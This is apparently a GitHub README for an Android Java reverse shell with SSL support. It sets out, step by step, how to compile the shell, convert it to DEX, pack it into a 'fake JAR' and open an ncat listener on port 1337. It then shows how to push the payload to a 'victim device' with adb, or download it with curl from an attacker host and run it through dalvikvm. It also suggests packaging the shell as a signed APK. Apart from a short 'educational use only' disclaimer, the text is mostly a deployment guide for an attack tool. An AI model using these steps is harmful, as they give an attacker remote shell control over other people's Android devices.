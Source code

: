 # Java Android Reverse Shell with SSL Support

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

UPDATED WITH SSL SUPPORT https://github.com/CalfCrusher/JavaAndroidReverseShell/tree/main/SSL

## On Attacker machine - Linux -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On Victim device - Android -
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl and then run the reverse shell using dalvikvm from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`<br/>

then

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Todo

~~Support for SSL encryption~~

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer


